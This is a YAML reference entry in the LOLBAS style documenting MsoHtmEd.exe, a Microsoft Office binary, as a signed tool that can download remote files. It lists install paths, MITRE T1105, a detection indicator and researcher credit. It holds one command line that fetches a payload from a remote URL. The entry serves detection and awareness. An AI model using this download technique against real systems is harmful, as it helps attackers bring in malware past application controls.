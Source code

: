 ```yaml
---
Name: MsoHtmEd.exe
Description: Microsoft Office component
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: MsoHtmEd.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
Detection:
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

